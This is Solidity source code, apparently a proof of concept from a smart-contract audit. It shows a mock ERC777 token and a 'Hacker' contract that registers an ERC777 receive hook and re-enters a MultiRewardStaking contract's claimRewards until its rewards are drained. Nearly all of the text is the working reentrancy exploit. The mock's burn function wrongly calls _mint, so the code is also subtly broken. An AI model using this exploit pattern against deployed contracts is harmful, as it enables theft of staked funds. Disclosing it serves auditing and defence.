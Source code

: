     contract MockERC777 is ERC777 {
      uint8 internal _decimals;
      mapping(address => address) private registry;

        constructor() ERC777("MockERC777", "777", new address[](0)) {}


      function decimals() public pure override returns (uint8) {
        return uint8(18);
      }

      function mint(address to, uint256 value) public virtual {
        _mint(to, value, hex'', hex'', false);
      }

      function burn(address from, uint256 value) public virtual {
        _mint(from, value, hex'', hex'');
      }
    }

    contract Hacker {
        IERC20[] public rewardsTokenKeys;
        MultiRewardStaking staking;
        constructor(IERC20[] memory _rewardsTokenKeys, MultiRewardStaking _staking){
          rewardsTokenKeys = _rewardsTokenKeys;
          staking = _staking;

          // register hook
          bytes32 erc777Hash = keccak256("ERC777TokensRecipient");
          bytes memory data = abi.encodeWithSignature("setInterfaceImplementer(address,bytes32,address)", address(this), erc777Hash, address(this));
          address(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24).call(data);
        }

        // deposit into staking
        function approveAndDeposit() external {
          IERC20 stakingToken = IERC20(staking.asset());
          stakingToken.approve(address(staking), 1 ether);
          staking.deposit(1 ether);
        }

        function startHack() external {
          // Claim and reenter until staking contract is drained
          staking.claimRewards(address(this), rewardsTokenKeys);
        }
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
          // continue as long as the balance of the reward token is positive
          // In real life, we should check the lower boundry to prevent a revert
          // when trying to send more then the balance.
          if(ERC777(msg.sender).balanceOf(address(staking)) > 0){
            staking.claimRewards(address(this), rewardsTokenKeys);
          }
        }
    }
